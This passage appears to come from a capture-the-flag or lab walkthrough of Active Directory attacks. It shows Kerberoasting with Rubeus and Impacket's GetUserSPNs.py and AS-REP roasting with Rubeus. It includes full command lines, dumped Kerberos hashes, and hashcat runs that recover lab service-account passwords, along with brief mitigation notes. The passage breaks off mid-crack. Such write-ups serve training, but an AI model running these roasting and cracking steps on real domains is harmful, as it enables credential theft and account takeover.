                             1D6F82F4DE0D886BD876E47D4D1C1921832C0A01108036C0ECEED245EE7CB1C1B61BD1A2FFF06472
                             67BEB920CB7561124A52FF8A3E44457D2A714C3AE4FBF437B030F04ADAE866EEADEC6E856C7E8815
                             E0FFA2F3A77B772E5860D1FFDF16442D815A368F597BFBB2D0482DD152C2001B542B0E26449681EE
                             BFB5A33BEC0904E228E52EA71AFD55B26148484BF4119283E4B168486865C7800AC33A135641BDC6
                             1CE17078AC18C2158DE84671F93AE05BFE5E18F72375BFAB9C0514FC3C75E34D119FFD8F1C2C15F3
                             11406303CBD3379E0F8A2E1468BF623F354818C05BD23F2518692C5ED2A4952F961730103719C32A
                             28A1D7200E0ACA159C705086A6DB8432B13F8A8F6FC90C120B33BD7D15B2BBC24CE035A1AD22FD44
                             A9C06B1E52870C60E9AF2CF8B289D311DBFD8B7A26642352452191BD0456BE49EBB96AF3B7ADF4C4
                             6213B36F2225E25F192E04E3AFF8358B905B2C4EE87A8C67CC192F0962271C59D8399627E9070FD2
                             9D5AFABC06FCD73877866181283BC1AFC9865E68037D0BDB0477F88A9B

[*] SamAccountName         : HTTPService
[*] DistinguishedName      : CN=HTTPService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/HTTPService.CONTROLLER.local:30222
[*] PwdLastSet             : 5/25/2020 10:39:17 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1/HTTPService.CONTROLLER.lo
                             cal:30222*$53AF44742DD12C74BB7B6C1CA941BEA9$DF7F7EF67F82404523A128F88209FF19E25F
                             CC6CFC8179C5CF9506CCF3CE5CA43F7AFBA7C8129E386B20E0A79F431510AD5970F881440E263DCF
                             1B78B68C1BE7C62EEB5B444B7D8810C0F95F4E979128CE115D778F7FCF78AEE9AB46A1D40A49A55E
                             0CFB7D29891717914AEB33B16A8774B4E34D175ECA35DAE6105F04E45F1CC29D081DA7D5788FF2AF
                             217BFB0B3C953954030C08CE70D41A8B96FACE779C2BF2B7678DAE72A5971F8A22720D6F59452DD2
                             8AE8FBA44239FC108FF26F2C8C865414737DDE51CA001F83517BB4CEF80A7DF6B18482E8F141B2EB
                             3B3546EB30FF37EA8A631AE8AB8EFE20E4C2B87623BFA2F976D7B25A86695A5161943985646698A9
                             5342E06031AE68F30F12790211FFBFA13E66F5C2A9A36C01F79E95775AD0C77C04B0194FFB3983D8
                             028B4BA14CCE2BA02A88AEAED203FF24F88BA25F496BE3C93A653EA8494CBBECA92CA5598BF05C16
                             9834B3EBA641CD4FE57E19505429AC7DECCB6D9FAF7776A0F52976BDE706ECEBF1C4058666D2E884
                             ABAA34509092666F9A84F1D2BF99BAD4D32AF216DB36BA903C37D6FA9D71762EA2B99ABD1D7ACA42
                             65DC222456CC8FE9BD64B3C8E847FC29FCDABEA5F4C5A1528393C04622BBA99788C544033EA8B6BB
                             62F6EDD48B8AF9D0C46460EB92421F829F135A3688232A7F836F0D4AE269186EEE653B9A0DAA7871
                             585B6EFA02FDB5403F8B189A44312286ECACACD949DA38862F2855CFFC175701D6326F572DD366E0
                             B89C062BA915115956F5C0379858BE61550CFE6E1ABBE215B5D49F8EB7C350793EC2FD3091323448
                             46850B226488EBCD6EC1F538702A842518A9D55C9AD9B426E6CDE6F2E5D852FA1144D886E35B2696
                             E846F1CB6F1C626C45EBE9684C40F57EA2E6C353762C4D1E4673ED2CCB162138D08105AB89AFACFB
                             5FB3EE78EDC9D28689D929A99E14C31509E991DFA92C8B83F02102BE13487352C030FEB4D8288377
                             CEDF14EECDA509175D54006FD62BFDE330E5828D9C0FDA802F533E2CCCA62699FDC6F60A23654B2A
                             78DB613B98B1804AF964EBF98E2B7E5009B502231C8747C49D7D7A877841E5482F38013A03110D11
                             E120B114816A6AB9298D5923B857A2F0EC0F9BB826473C30FBE1119C8BB88917B8CF181FF9955883
                             29F1F4DDA8D9DDE90FA2D49CEC41FE877549FDAE6222FC7C0B27DFAADF57D04164AD4DC9541D17B6
                             1B0987529E34686702A3FCBAACB6E1700C7EC8FB7195D05226C47033E5CB4DCD291DC4CB1D7A5B7E
                             186737F71F71C8FECFFB5728FC629EB433FEBC8ED046DA72FFA961458042215D4A63571D9D61D160
                             65173E6D470DDB2C2868527EB901ED73744750872CC8CB84344EA17F8218B51772220B956B0E89E5
                             B98316F0BB794BE4E1E47821216593CE5C08C82EFBC7C6002782010735DD175C26697606B88419C8
                             6F93E2CFA65D2873828F72FD3AC7EDDD6749AA32D7DC4A699739ED5F62FDBEA791307858CDB520F4
                             E8A491A46F9D269613CCAAAB4B90BD89335A66E8684400EF18C6FCBEBFD8EEE87E3493056BE1E78D
                             14F2005B8D877C7017FDBC98CDC7EB5D215BB5030CA9508ECB4C7AB381D0E27D36A866D5FF3CEED6
                             6971040D739F0071C48E5422485D26F63A0566701B3CD2F6120C2CCF2EC1

C:\Users\Administrator\Downloads>
~~~

Or using the second method, with Impacket:

~~~
$ GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.196.115 -request
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

ServicePrincipalName                             Name         MemberOf                                                         PasswordLastSet             LastLogon                   Delegation 
-----------------------------------------------  -----------  ---------------------------------------------------------------  --------------------------  --------------------------  ----------
CONTROLLER-1/SQLService.CONTROLLER.local:30111   SQLService   CN=Group Policy Creator Owners,OU=Groups,DC=CONTROLLER,DC=local  2020-05-26 00:28:26.922527  2020-05-26 00:46:42.467441             
CONTROLLER-1/HTTPService.CONTROLLER.local:30222  HTTPService                                                                   2020-05-26 00:39:17.578393  2020-05-26 00:40:14.671872             

$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$CONTROLLER-1/SQLService.CONTROLLER.local~30111*$5891558b9aa30ada7d1c6c46150b2bd5$ae267675898a135bb22d8ff4832b8b68d7e783f9ffedad0db0b56fc16f9e16ef9f6e145637975a3f5c714e107f592d622aa722c5b56aa5ac6cb7246c7cc68f76347e48e4ebc8da28af04f17d644a14f192d520fed553855bff54cc8e5dc049bfc4c09fcee2f71a276cb6be15c53cebb787aed4426a7bb55ad2cee5a57cd66dcccc795b7d66239665557050e49e2a80535f885bb2ce453e06d859965b875945a0e4ef16082469a40176227358017ccd91f600d0a337231c212db432e78ee9d103dee98729beb71ad68c240a3900ef667dcff5997748a86bac9cab254b6cd89f9d513be7b9e50212a0f3b523050173d52825bce5ea5e859f1e849057a1c1abed8203e88dd1f40c69c20e2c7b2db72aaf08fa63510beb6bd9859878154ec779bb2959aa660c35b119a5401ec8c53c25e8b69178df0250e5b26ca5472682eed6905b56d01a2003fff1eefa706604726ebf471c8b56a9e5d5ad42d03a946cc64ad4c8fb5c55c2baf578d81d409cbd2c337771827e2e631b616ecd65c25dbe650579b1e474ff50c1493f0a229b1821cd8b5d83db7b676538c194033aabd6e87daa7465b250e67282a4debfa92e9add2e7cce429d5ba9bd70b59419d956154a2f26a1d653e169b41225fe76876cde1707fbc416b9742ff808962fbfe79fddd863cfc7d59e6343b131df17240a597cf2801e64535af70223a6b0d863cd0c32770a4d916f517492a1f5311b081817adbaff9a5f961d0bf77257760a366982ea2b1090300de4c2a592879e4b8ed928447e163646c30dbd94a46ebfec26a03ce99b91e2ac38cd736cf6878d79dfd9baedcddb6092df99bbca9b446d804ee104e8a6c01dac2155f0d47faec1937f191717fe7b43e78f20e94d909037186759a68fb0697370784a15797f04b7d439461e71c35d49603c5e853f4112df8ff22ffe75e352c56cacd2f9ebbacd6bebe80019804e2b3af0bfaddba7dce6203402d12de77b0413f5a4d8bd195de57aaaa423cbb243ff7dcb2e2554d043cb58f8059b0bc0af92c10352f4e17223ec411607d275faddc8aa81807107ac24ce251fe131c213a9de7d19ad2c93caedb0f4091d55d754bf4fdae98e3443514fb2e4a361a9dc694c016f12135ca2a2e6281c9ca257788386f5d3bdac31134b459d8471618f2435973b24085a46fc1d76f16d183583c44703ddc0eb34c9e8a57f8bd05d0a8ea55484aa13a4b0de014bc8509cb20449896f5b12d56e6b71eb1f655b4e7e1ed68306a5368fcc80393c79f874d46a4019e1bfec05fa464831da87d0a8822d150d977fa347db90fd60065b56639aed546e1175a78ed9e84e1111cb9fee61908c313ebbeb539a8337b63d92d10caa408197164cee83b1f20c99
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$CONTROLLER-1/HTTPService.CONTROLLER.local~30222*$1a2d5d2a2bd45b014c91931d2e051719$a55fe2715615d017774f8e95f578ff92159c8b2b491fa0d6f713b72592ca901edb4cdd1739c7f58d23d3e089f5369f5bf9af69825eec88356534c9e54f4edf90833b2e6c243b28104f0ad90ffa3c25eddce674195fb9051e44fc19bc5e8deb5b0d7e28145a2ee1da804ce9654d2f3d3bbb41754f4f389bc382e02e31988447ef09c1f6c70b63ee27207c5bf86b8c0b43f1a6eaca817fc36ddce069939c7b108388977dee1c5935a79687b962c89ad8f47e645eb097ac6acc38af5d782a6ebb1f8874f5d63de949760cebe22d79e51ec6305150e86e623e9a3783386b42591898035141109e85b318cabaec541e1ca0e34606298d713a4a4f262378ebee7afa92c6639f630efa2a67a4aacb5dfec6419a2e5ca1a30c8aaab0b209b7e48d549d7a8b2f059c02d10648e299622efb6e1c9efd78d33df86922a39c57c0eb5cf4664f5bc45a3e7f9d00abefc5a1beda290ac65db3a0de95cfe0d387550c1de317579f3f32f3747baa20b01a8d9855a9fc9ae58b57da518d7c043c9a4680cab743b1c2e6d1f9347d9923faecd198acc6dca4a23426950cb72959a5c01762db9b4badc7a306a00f8585b4929823a0ef2b59701c5ffeabe70d66367ca51b7cda788b38fe3b1ca21ab68fc1e2794d68f209f0d0703bb54f63427cd13b3bc42dbb6634ebe649f1878435f8eeecf9439b2443843f9250131515fddd7290a3b47385315b70ef8163f0e303b884f0cfc2dede7231a8d2000d6e69b1f24c362562484fb7d2a34c181c9de0d4edff52fbe2819d4019df01f3ce6078e3ca64e10f627bed167a598b2254310d3a29dcfa4858b80193a5e02d892bcc085efa78e02bd44d878ce1f9d81bd7bfb09896f59ff92db7aae3f3a8f096852b756f687e3e2c9ed3c4164667f71dd50846ae87aa4778fd14e5541d77ef8955b1cf5f1e568bf2a0a25dc4ad1cef6dc503f683127176f1068d7e8e117a199aa58f372d6b2096cc8b568747dc641db5b6c72ca07a268f8cd2d3b6b0a54dc32bea1911d0f04945fea2af8c6a26d6bb6b7858a43614cbf616d34bf7d45c5c98cdde8299ab0c41111992e8c902a6063108df8b60acbdf735d48cdfcbc7a340182d4a05bfaf1b586326cccd7359777f07bc1f0562ed4f11a58a9c660d0ebaf5235583e20c8414395eabc377a2541142cfb17aa57ba85067346985812f1299815a75bfb0da8dce4593dfaf4c4c06c6dc7215c50f38473486b654ca9987f6ab3e903c958d78c08fc808e3e77e00fee40684924e9445f4b0b52a2d9ea1a22e928c327449e3bb88d840b93e85a5d259fbc5317c6e29a41796b03e731ef618ac60999d60cc3355aa391e7baa53a1d9f3ebf0e53eea670ac08efb9d0b733162448e1e076c
~~~

Let's copy both hashes to hash files and crack them.

~~~
root@kali:~# hashcat -m 13100 -a 0 httpservice.hash Pass.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz, 1024/2953 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=13100 -D _unroll'
Dictionary cache built:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

$krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1/HTTPService.CONTROLLER.local:30222*$53af44742dd12c74bb7b6c1ca941bea9$df7f7ef67f82404523a128f88209ff19e25fcc6cfc8179c5cf9506ccf3ce5ca43f7afba7c8129e386b20e0a79f431510ad5970f881440e263dcf1b78b68c1be7c62eeb5b444b7d8810c0f95f4e979128ce115d778f7fcf78aee9ab46a1d40a49a55e0cfb7d29891717914aeb33b16a8774b4e34d175eca35dae6105f04e45f1cc29d081da7d5788ff2af217bfb0b3c953954030c08ce70d41a8b96face779c2bf2b7678dae72a5971f8a22720d6f59452dd28ae8fba44239fc108ff26f2c8c865414737dde51ca001f83517bb4cef80a7df6b18482e8f141b2eb3b3546eb30ff37ea8a631ae8ab8efe20e4c2b87623bfa2f976d7b25a86695a5161943985646698a95342e06031ae68f30f12790211ffbfa13e66f5c2a9a36c01f79e95775ad0c77c04b0194ffb3983d8028b4ba14cce2ba02a88aeaed203ff24f88ba25f496be3c93a653ea8494cbbeca92ca5598bf05c169834b3eba641cd4fe57e19505429ac7deccb6d9faf7776a0f52976bde706ecebf1c4058666d2e884abaa34509092666f9a84f1d2bf99bad4d32af216db36ba903c37d6fa9d71762ea2b99abd1d7aca4265dc222456cc8fe9bd64b3c8e847fc29fcdabea5f4c5a1528393c04622bba99788c544033ea8b6bb62f6edd48b8af9d0c46460eb92421f829f135a3688232a7f836f0d4ae269186eee653b9a0daa7871585b6efa02fdb5403f8b189a44312286ecacacd949da38862f2855cffc175701d6326f572dd366e0b89c062ba915115956f5c0379858be61550cfe6e1abbe215b5d49f8eb7c350793ec2fd309132344846850b226488ebcd6ec1f538702a842518a9d55c9ad9b426e6cde6f2e5d852fa1144d886e35b2696e846f1cb6f1c626c45ebe9684c40f57ea2e6c353762c4d1e4673ed2ccb162138d08105ab89afacfb5fb3ee78edc9d28689d929a99e14c31509e991dfa92c8b83f02102be13487352c030feb4d8288377cedf14eecda509175d54006fd62bfde330e5828d9c0fda802f533e2ccca62699fdc6f60a23654b2a78db613b98b1804af964ebf98e2b7e5009b502231c8747c49d7d7a877841e5482f38013a03110d11e120b114816a6ab9298d5923b857a2f0ec0f9bb826473c30fbe1119c8bb88917b8cf181ff995588329f1f4dda8d9dde90fa2d49cec41fe877549fdae6222fc7c0b27dfaadf57d04164ad4dc9541d17b61b0987529e34686702a3fcbaacb6e1700c7ec8fb7195d05226c47033e5cb4dcd291dc4cb1d7a5b7e186737f71f71c8fecffb5728fc629eb433febc8ed046da72ffa961458042215d4a63571d9d61d16065173e6d470ddb2c2868527eb901ed73744750872cc8cb84344ea17f8218b51772220b956b0e89e5b98316f0bb794be4e1e47821216593ce5c08c82efbc7c6002782010735dd175c26697606b88419c86f93e2cfa65d2873828f72fd3ac7eddd6749aa32d7dc4a699739ed5f62fdbea791307858cdb520f4e8a491a46f9d269613ccaaab4b90bd89335a66e8684400ef18c6fcbebfd8eee87e3493056be1e78d14f2005b8d877c7017fdbc98cdc7eb5d215bb5030ca9508ecb4c7ab381d0e27d36a866d5ff3ceed66971040d739f0071c48e5422485d26f63a0566701b3cd2f6120c2ccf2ec1:Summer2020
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLE...cf2ec1
Time.Started.....: Mon Jun 22 06:21:29 2020 (0 secs)
Time.Estimated...: Mon Jun 22 06:21:29 2020 (0 secs)
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    12872 H/s (3.31ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1240/1240 (100.00%)
Rejected.........: 0/1240 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> hello123

Started: Mon Jun 22 06:21:29 2020
Stopped: Mon Jun 22 06:21:31 2020
~~~

Password: `Summer2020`

## #4.2 - What is the SQLService Password?

Now, let's crack the sqlservice's password:

~~~
root@kali:~# hashcat -m 13100 -a 0 sqlservice.hash Pass.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz, 1024/2953 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=13100 -D _unroll'
Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$c6faf5d567dd76725c903d7655277260$3cf91371c0e3dd70cb96fdd32ccb28e47c2b9876d203f2fb889be198f432ad260de8444910ea07f4b6449596bed52ff975bd7d05ddb786a9cf44b3d2b307122fa57f6382f540ce2ecf040e2a54fd63369dc39c984cc38e797c623beb9a23065469a56d0cdd4fd7e6b4146a5ca2a3d6623c47f51dac168a9eb01c585502414f0aff4d31b00ab65e5b293aa3a7b45dc18d9a2203102435d3402e47fc1961c31dcc38de401a73b839dd0925fd4ace9f0ba5be4a8e945c9f6f510ce0ec4f70434380a2654a2f5731c9685d7daf7459c9b4857707f924e0fa492a714b8335174c821173cbbc19dc43136bbe3e699c4cdaa943c09bea22a1e7c726154d5d9f9ad28ad076f37ec25168e4a38ee26f0d68114fc037f9b8c947e8913752e673b4ea6d99d8c6db398b413302025afb228ef41aa24619fa4b2eac81602bbb3e6686c83cde3ac39cef7e8f09e72cdb72685d829381bf8748433a1a143dbcdc50081bb6ba8154705f71dd118c3e1acedef79293d5555daad23ca775574acef3d59897dcaa07749e29a0fdda4aa88b35f92ad557aa37dd85826ed3b9f0e2be8b11e543f9e7dba998155966d27aa33b250092782ea1773bfc27bc8bc63df7ee387991ab860a9550d0a6834497c6b21016f95f9c823cd177eb62cfaef0c32ef3a434f57ef0afea7ee7f600a8e6d364bd62826545bbaeb83431a753446f2557a12f93283e5394ed74c53c1ef0c0a0d00fd898bd9cd05fe6b1b10a086d37253951190db407e77634b9e82ef13ff41261a20d044100f3804bfd29151fd7a42977665600a8a84c34823177460a12aef2d52706ffc10238e54c931fa3dc128f78af400f41aaa158afe499784c45ecdc9c8579b73187b124328f6e79a8b99f90227448402c6c15229e46c11ecce2d3e89c803d23d6753edcbcc2c0e6c9178af78eaa5fc377f8b1fec3959b2e99b0a34c4a5ced02c7c5d1d1481330911cbd96905afb561084d4dba283d1928903a55448290c9bd318323ca24e9b89771b016227be803b94e98a20b13fde9310f09b1e630ad17dba18953946d656c4a50ff3135c68ce9f401cd44f08abc7c7452a88501a9a26f643e7971d6f82f4de0d886bd876e47d4d1c1921832c0a01108036c0eceed245ee7cb1c1b61bd1a2fff0647267beb920cb7561124a52ff8a3e44457d2a714c3ae4fbf437b030f04adae866eeadec6e856c7e8815e0ffa2f3a77b772e5860d1ffdf16442d815a368f597bfbb2d0482dd152c2001b542b0e26449681eebfb5a33bec0904e228e52ea71afd55b26148484bf4119283e4b168486865c7800ac33a135641bdc61ce17078ac18c2158de84671f93ae05bfe5e18f72375bfab9c0514fc3c75e34d119ffd8f1c2c15f311406303cbd3379e0f8a2e1468bf623f354818c05bd23f2518692c5ed2a4952f961730103719c32a28a1d7200e0aca159c705086a6db8432b13f8a8f6fc90c120b33bd7d15b2bbc24ce035a1ad22fd44a9c06b1e52870c60e9af2cf8b289d311dbfd8b7a26642352452191bd0456be49ebb96af3b7adf4c46213b36f2225e25f192e04e3aff8358b905b2c4ee87a8c67cc192f0962271c59d8399627e9070fd29d5afabc06fcd73877866181283bc1afc9865e68037d0bdb0477f88a9b:MYPassword123#
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER...f88a9b
Time.Started.....: Mon Jun 22 06:21:45 2020 (0 secs)
Time.Estimated...: Mon Jun 22 06:21:45 2020 (0 secs)
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    12667 H/s (2.48ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1240/1240 (100.00%)
Rejected.........: 0/1240 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> hello123

Started: Mon Jun 22 06:21:45 2020
Stopped: Mon Jun 22 06:21:46 2020
root@kali:~# 
~~~

Password: `MYPassword123#`

# [Task 5] AS-REP Roasting w/ Rubeus

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

There are other tools out as well for AS-REP Roasting such as `kekeo` and Impacket's `GetNPUsers.py`. `Rubeus` is easier to use because it automatically finds AS-REP Roastable users whereas with `GetNPUsers` you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

I have already compiled and put Rubeus on the machine.

**AS-REP Roasting Overview**

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

**Dumping KRBASREP5 Hashes w/ Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

**Crack those Hashes w/ hashcat**

1. Transfer the hash from the target machine over to your attacker machine and put the hash into a `*.txt` file
2. Insert `23$` after `$krb5asrep$` so that the first line will be `$krb5asrep$23$User.....`. Use the same wordlist that you downloaded in task 4
3. `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200 

**AS-REP Roasting Mitigations**

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

## #5.1 - What hash type does AS-REP Roasting use?

Answer: `Kerberos 5 AS-REP etype 23`

## #5.2 - Which User is vulnerable to AS-REP Roasting?

~~~
C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b1a8:fc88:ce2d:965%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:D74666FC02C59A3D6224C97F4214433F$F2DC7E041BDD
      4BE66D11CEFF49EDB1BF011CCAF025458A2D5326CAA1EB1B26DEB7DDC246A5E8CBEBECAA8674EC43
      EFE5632ECC8EAF516DC6108C44A8E6305658C9A14998C173F3CC0A30BF2474DD7F067CF1EC33C859
      E2FBE4C9767DCFCF5DB8147AFA5F08CFEC5ECCF9FA9839D0C8C8475872951BDC28527567210F0FE0
      14B38CD1A4752E2ED8F442C92E28BA79CFCB0699AAEE8394071A53906BE09D02DA7F1214C279D845
      5EAA8045C16BBE40ACA508DA385B622A2A0F538A25911885269362B0DDF993F684FB850D77BEFFCA
      F992F247AF0B48B76928D9D3E99C8E5D315EA38A61C0C35D62581C2A166ED8D0504744CDCB20

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b1a8:fc88:ce2d:965%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:A82390E1187D686737BF6D6D0875ACE5$A889A1EB5F300
      A26BCD9B6024C52802099A99AEBCABEF375C369085B1A63784E9949704D7CCA8C429EB91A6CEAA53
      73FAB913D550D354F263FF470D1CF32ACBA7F06EF58DE9DC3886BCC00521E735DFB2031231D37A35
      D1DF5E3F5E2BAEB71AF93B05846A07FA84FAA1C454611F4220BB3C75B5AC9467B58C8BC5BC9CC58B
      E79CDF3031FB0509C2CE269EBDE76978001E4BE655F1E357D704FF999958848BAEE3DCBF05ADA5A0
      A0D8A1FA3D35410516E84900A8CC1B4DA386B9C87C561F2836DAEAB18544CB34D0573A19E8CF7AD6
      332FB8682930E2FB33DC66A52018BB29E0AC6C22C5A9BF899BF0F86B7AC2948C52B87BB228F

C:\Users\Administrator\Downloads>
~~~

Answer: `User3`

## #5.3 - What is the User's Password?

Let's crack User3's password with hashcat (after modifying the hash, as explained in the tutorial):

~~~
root@kali:~# hashcat -m 18200 user3.hash Pass.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz, 1024/2953 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.7360f606.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

